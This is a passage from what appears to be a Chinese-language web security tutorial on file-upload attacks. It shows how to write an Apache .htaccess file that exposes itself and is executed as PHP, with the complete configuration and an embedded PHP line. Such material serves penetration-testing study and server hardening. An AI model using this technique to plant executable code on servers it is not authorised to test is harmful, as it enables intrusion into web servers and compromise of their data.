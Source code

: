 - 方法二：直接将 .htaccess 文件当做 PHP文件处理

这种方法适合目标环境当前目录或子目录下没有 PHP 文件的情况下。

需要先在 .htaccess 里面设置允许访问 .htaccess 文件，否则是直接访问 .htaccess 文件是Forbidden的：

```php
<Files ~ "^.ht">
    Require all granted
    Order allow,deny
    Allow from all
</Files>
```

然后再设置将 .htaccess 指定当做 PHP 文件处理并解析：

```php
SetHandler application/x-httpd-php
# <?php phpinfo();?>
```

最终 .htaccess 文件里面的内容为：

```php
<Files ~ "^.ht">
    Require all granted
    Order allow,deny
    Allow from all
</Files>
SetHandler application/x-httpd-php
# <?php phpinfo();?>
```

然后我们直接访问 .htaccess 文件即可把 .htaccess 文件当做 PHP 文件处理并执行里面的 PHP 代码：

![img](文件上传.assets/1681146121225-3b3768bd-879c-446a-918c-0479d82a079e.png)
